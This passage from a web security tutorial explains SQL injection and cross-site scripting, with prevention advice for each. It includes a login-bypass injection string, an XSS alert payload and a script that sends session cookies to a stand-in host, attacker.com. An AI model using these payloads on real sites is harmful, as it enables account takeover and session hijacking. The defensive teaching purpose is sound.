 ```vbnet
Username: admin' -- 
Password: (any)
```

The resulting query:

```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password';
```

- `--` makes the rest of the query a comment, bypassing password validation.
- The attacker **logs in as an admin without knowing the password**.

### How to Prevent SQL Injection

- Use Prepared Statements (Parameterized Queries):

```python
import sqlite3
conn = sqlite3.connect('database.db')
cursor = conn.cursor()
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

- Use ORM frameworks (e.g., SQLAlchemy, Hibernate).
- Sanitize and validate user input.
- Limit database privileges to reduce impact.

&nbsp;

* * *

### 2\. Cross-Site Scripting (XSS)

XSS occurs when attackers inject **malicious JavaScript** into a web page, which is then executed in a victim’s browser.

**Example Attack:** A comment section allows users to submit messages without input validation. An attacker submits:

```html
<script>alert('Hacked!');</script>
```

If the input is not sanitized, every user who views the comment will see an alert box pop up.

**More Dangerous Variant:**

```html
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

This **steals session cookies**, allowing the attacker to hijack user accounts.

### How to Prevent XSS

- Escape user input using HTML entity encoding (e.g., `&lt;script&gt;`).
- Use Content Security Policy (CSP) to block inline scripts.
- Sanitize input with libraries like DOMPurify.
